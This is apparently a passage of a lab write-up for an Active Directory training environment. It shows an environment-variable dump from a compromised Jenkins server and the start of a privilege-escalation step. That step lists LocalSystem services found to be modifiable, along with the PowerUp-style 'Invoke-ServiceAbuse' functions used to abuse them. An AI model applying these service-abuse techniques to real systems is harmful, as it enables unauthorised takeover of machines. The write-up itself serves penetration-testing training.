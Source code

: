 ```powershell
HUDSON_SERVER_COOKIE           6f6749723e1110b6
HUDSON_URL                     http://172.16.3.11:8080/
JENKINS_HOME                   C:\Users\Administrator\.jenkins
JENKINS_SERVER_COOKIE          6f6749723e1110b6
JENKINS_URL                    http://172.16.3.11:8080/
JOB_BASE_NAME                  Project0
JOB_NAME                       Project0
JOB_URL                        http://172.16.3.11:8080/job/Project0/
LOCALAPPDATA                   C:\Users\ciadmin\AppData\Local
NODE_LABELS                    built-in
NODE_NAME                      built-in
NUMBER_OF_PROCESSORS           2
OS                             Windows_NT
Path                           C:\Program Files\Common Files\Oracle\Java\javapath;C:\Windows\system32;C:\Windows;C:\...
PATHEXT                        .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC;.CPL
PROCESSOR_ARCHITECTURE         AMD64
PROCESSOR_IDENTIFIER           AMD64 Family 25 Model 1 Stepping 1, AuthenticAMD
PROCESSOR_LEVEL                25
PROCESSOR_REVISION             0101
ProgramData                    C:\ProgramData
ProgramFiles                   C:\Program Files
ProgramFiles(x86)              C:\Program Files (x86)
ProgramW6432                   C:\Program Files
PROMPT                         $P$G
PSModulePath                   C:\Users\ciadmin\Documents\WindowsPowerShell\Modules;C:\Program Files\WindowsPowerShe...
PUBLIC                         C:\Users\Public
SERVICE_ID                     jenkins
SystemDrive                    C:
SystemRoot                     C:\Windows
TEMP                           C:\Users\ciadmin\AppData\Local\Temp
TMP                            C:\Users\ciadmin\AppData\Local\Temp
USERDNSDOMAIN                  DOLLARCORP.MONEYCORP.LOCAL
USERDOMAIN                     dcorp
USERNAME                       ciadmin
USERPROFILE                    C:\Users\ciadmin
windir                         C:\Windows
WINSW_EXECUTABLE               C:\Users\Administrator\.jenkins\jenkins.exe
WINSW_SERVICE_ID               jenkins
WORKSPACE                      C:\Users\Administrator\.jenkins\workspace\Project0
WORKSPACE_TMP                  C:\Users\Administrator\.jenkins\workspace\Project0@tmp
```

### Flag 5 \[Student VM] - Service abused on the student VM for local privilege escalation  🚩

As seen in the task 1, we can use one of the following services fo

```powershell
ServiceName   : AbyssWebServer
Path          : C:\WebServer\Abyss Web Server\abyssws.exe -service
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'AbyssWebServer'
CanRestart    : True
Name          : AbyssWebServer
Check         : Modifiable Services

ServiceName   : SNMPTRAP
Path          : C:\Windows\System32\snmptrap.exe
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'SNMPTRAP'
CanRestart    : True
Name          : SNMPTRAP
```